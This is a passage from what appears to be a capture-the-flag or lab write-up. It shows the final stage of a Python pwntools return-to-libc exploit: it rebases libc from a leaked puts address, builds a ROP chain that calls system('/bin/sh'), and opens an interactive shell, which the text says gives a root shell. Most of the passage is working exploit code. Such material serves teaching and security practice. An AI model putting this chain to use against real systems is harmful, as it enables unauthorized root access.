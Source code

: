 ```python
#calculating base address of libc and rebasing
#matching leaked puts address with https://libc.blukat.me/ we get the required libc(amd64)
libc = ELF('libc6_2.23-0ubuntu11.2_amd64.so', checksec=False)	
libc.address = leak - libc.sym['puts']
log.info(f"base address libc => {hex(libc.address)}")

#final payload to call /bin/sh
payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.symbols.system)

#poping shell
io.recvline()
io.sendline(payload)

io.interactive()
``` 
This will give us a root shell on the box. 

-----------------